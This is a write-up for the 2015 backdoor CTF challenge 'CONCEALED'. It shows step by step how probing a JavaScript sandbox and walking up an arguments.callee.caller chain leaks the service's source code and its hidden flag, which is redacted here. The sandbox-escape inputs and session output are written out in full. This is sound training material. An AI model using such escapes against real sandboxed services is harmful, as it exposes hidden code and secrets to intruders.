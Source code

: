 # backdoor CTF 2015: [CONCEALED](https://backdoor.sdslabs.co/challenges/CONCEALED)

**Category:** Exploit
**Points:** 225
**Author:** [Amanpreet Singh](https://backdoor.sdslabs.co/users/apsdehal)
**Difficulty:** TODO
**Solves:** 24
**Description:**

* <https://backdoor.sdslabs.co/challenges/CONCEALED>

> All paths have been concealed. Get the hidden flag: `nc hack.bckdr.in 8005`. Submit sha-256 of the flag

## Write-up

Let’s connect to the service:

```bash
$ nc hack.bckdr.in 8005
######################################
####           CONCEAL            ####
######################################

Welcome to CONCEAL
You have access to object named sandboxed and its functions
Rest everything is sandboxed, don’t be a jerk and break something
Wrap your code in a function and return what you want as output
Flag is hidden somewhere in the code.
Get the flag :D!

home@jail:$
```

The welcome message reveals that the flag is hidden in the source code running the service. Some initial testing reveals it’s a JavaScript sandbox:

```
home@jail:$ sandboxed
TypeError: Property 'sandboxed' of object #<Object> is not a function

home@jail:$ function() { return sandboxed; }
[object Object]

home@jail:$ function() { return Object.keys(sandboxed); }
readFlag,print

home@jail:$ sandboxed.readFlag
flag: wrong_flag

home@jail:$ function() { return sandboxed.readFlag; }
function () {
  text = 'flag: wrong_flag';
  return text;
}

home@jail:$ sandboxed.print
undefined

undefined

home@jail:$ function() { return sandboxed.print; }
function (data) {
  sys.print(data + '\n' + '\n');
}
```

It’s possible to crash the application, which reveals a small part of the source code, but not the flag:

```
home@jail:$ function() { return this; }

/index.js:76
                sys.print(data + '\n');
                               ^
TypeError: Cannot convert object to primitive value
    at /index.js:76:20
    at /node_modules/prompt/lib/prompt.js:316:32
    at /node_modules/prompt/node_modules/utile/node_modules/async/lib/async.js:142:25
    at assembler (/node_modules/prompt/lib/prompt.js:313:9)
    at /node_modules/prompt/lib/prompt.js:322:32
    at /node_modules/prompt/lib/prompt.js:599:5
    at Interface.onLine (/node_modules/prompt/node_modules/read/lib/read.js:111:5)
    at Interface.emit (events.js:95:17)
    at Interface._onLine (readline.js:203:10)
    at Interface.<anonymous> (readline.js:323:12)
```

In JavaScript function contexts, `arguments.callee` refers to the currently executing function. As a result, `arguments.callee.caller` refers to the function that called the current one (i.e. one level up the call stack). This enables us to find out how the sandbox wraps our input:

```
home@jail:$ function() { return String(arguments.callee.caller); }
function () {return (function() { return String(arguments.callee.caller); })()}
```

So, our input gets wrapped in `function () {return ($INPUT)()}` and executed in a sandbox. But what is the `caller` of that function?

```
home@jail:$ function() { return String(arguments.callee.caller.caller); }
function () {
        if (!(this instanceof Script)) {
          throw new TypeError('invalid call to ' + f);
        }
        return ns[f].apply(ns, arguments);
      }
```

A-ha! We’re slowly revealing more and more source code, but no flag so far.  We need to go deeper!

Eventually we end up with the following payload which reveals the flag as part of a source code comment:

```
home@jail:$ function() { return String(arguments.callee.caller.caller.caller.caller.caller.caller.caller.caller.caller); }
function (err, line) {

    // flag : [redacted]

    if (err && wait === false) {
      return callback(err);
    }

    var against = {},
        numericInput,
        isValid;

    if (line !== '') {
      if (schema.properties[propName]) {
        var type = (schema.properties[propName].type || '').toLowerCase().trim() || undefined;

        //
        // Attempt to parse input as a float if the schema expects a number.
        //
        if (type == 'number') {
          numericInput = parseFloat(line, 10);
          if (!isNaN(numericInput)) {
            line = numericInput;
          }
        }

        //
        // Attempt to parse input as a boolean if the schema expects a boolean
        //
        if (type == 'boolean') {
          if(line === "true") {
            line = true;
          }
          if(line === "false") {
            line = false;
          }
        }

        //
        // If the type is an array, wait for the end. Fixes #54
        //
        if (type == 'array') {
          var length = prop.schema.maxItems;
          if (err) {
            if (err.message == 'canceled') {
              wait = false;
              stdout.write('\n');
            }
          }
          else {
            if (length) {
              if (tmp.length + 1 < length) {
                isValid = false;
                wait = true;
              }
              else {
                isValid = true;
                wait = false;
              }
            }
            else {
              isValid = false;
              wait = true;
            }
            tmp.push(line);
          }
          line = tmp;
        }
      }

      against[propName] = line;
    }

    if (prop && prop.schema.before) {
      line = prop.schema.before(line);
    }

    // Validate
    if (isValid === undefined) isValid = prompt._performValidation(name, prop, against, schema, line, callback);

    if (!isValid) {
      return prompt.getInput(prop, callback);
    }

    //
    // Log the resulting line, append this `property:value`
    // pair to the history for `prompt` and respond to
    // the callback.
    //
    logger.input(line.yellow);
    prompt._remember(propName, line);
    callback(null, line);

    // Make sure `tmp` is emptied
    tmp = [];
  }
```

Now that we have the flag, all that’s left to do is to hash it using SHA-256 so it can be submitted:

```bash
$ printf "$flag" | sha256sum
```

## Other write-ups and resources

* none yet
